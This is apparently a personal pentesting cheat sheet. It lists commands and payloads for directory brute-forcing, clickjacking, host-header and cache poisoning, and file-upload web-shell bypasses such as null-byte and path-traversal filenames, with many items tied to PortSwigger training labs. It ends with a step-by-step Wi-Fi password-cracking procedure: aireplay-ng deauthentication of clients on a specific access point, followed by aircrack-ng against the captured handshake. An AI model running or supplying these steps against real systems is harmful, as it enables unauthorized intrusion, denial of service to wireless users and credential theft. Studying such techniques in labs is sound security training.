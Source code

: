 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	dirb https://domain.com/ /usr/share/wordlists/dirb/big.txt
	gobuster -u http://fakebank.com -w wordlist.txt dir 
		
# directory Traversal
	dirb https://domain.com/ /usr/share/wordlists/wfuzz/vulns/dirTraversal-nix.txt
	
# ClickJacking
https://numberless-holddown.000webhostapp.com/clickjacking.php?url={url}
or
		
		<!DOCTYPE html>
		<html lang="en">
		<head>
		  <meta charset="UTF-8">
		</head>
		<body>
		  <iframe src="{url}" frameborder="0"></iframe>
		</body>
		</html>

# Host Header Poisoning
## Basic
	Change "Host" header 

## via middleware (for password reseting)
	Add X-Forwarded-Host: <domain.com>
https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware
	
## via dangling markup
	Try "Host: domain.com" to "Host: domain.com:attacker.com"
https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup

# Web Caches Poisioning
## Via an unkeyed header
	This lab supports the X-Forwarded-Host header. 
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header
	
## Via an unkeyed cookie
	change cookies value.
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-cookie
	
## Via multiple headers
	Add:
		X-Forwarded-Scheme:http
		X-Forwarded-Host: example.com
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers
	
# RCE
## Basic
	Upload Php File
	
## via Content-Type restriction bypass
	Change "Content-Type" header
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass
	
## via path traversal
	Change file name "test.php" to "..%2ftest.php"
https://www.youtube.com/watch?v=4R3PUhiFzS4
	
## via obfuscated file extension
	change file name filename="exploit.php%00.jpg"
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension
	
## via race condition
https://www.youtube.com/watch?v=mt0BN5pYHXI </br>
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
	
# No Rate Limit
## via brute force
	send request to intruder
## via Race Condition
	Send request to turbo
	add "race.py" payload
	add "test: %s" header in header



# Android Apk VAPT
## Insecure-data-storage
	find savedpref crenditial using adb
https://www.youtube.com/watch?v=x8keYIWFzbY

## BACKUP FLAG TRUE ENABLED
	go to AndroidManifest.xml and search "backup" if backup is not found or may be its true thats means its  vulnerable


# Wifi Password Hacking
	

	Step 1:

	Put your wireles lan card on monitor mode

	 airmon-ng start "wireless lan card name"
	=> airmon-ng start wlan0

	Step 2:

	Capture Traffic with Airodump-ng

	airodump-ng "wireless lan card monitor mode"

	=> airodump-ng wlan0mon


	Step 3:

	Focus airodump-ng on one AP on One Channel

	 airodump-ng --bssid dummy -c dummy --write WPAcrack wlan0mon

	=> airodump-ng --bssid 8C:FD:18:88:79:68 -c 9 --write WPAcrack wlan0mon


	Step 4:

	in order to capture the encrypted password we need to have the client authenticate against AP.
	we do deauth signal to client

	 aireplay-ng --deauth 1000 -a bssid wlan0mon

	=> aireplay-ng --deauth 1000 -a 8C:FD:18:88:79:68 wlan0mon


	Step 5:

	Now we have to crack the dump file with aircrack-ng

	 aircrack-ng WPAcrack-01.cap -w (localtion of wordlist)
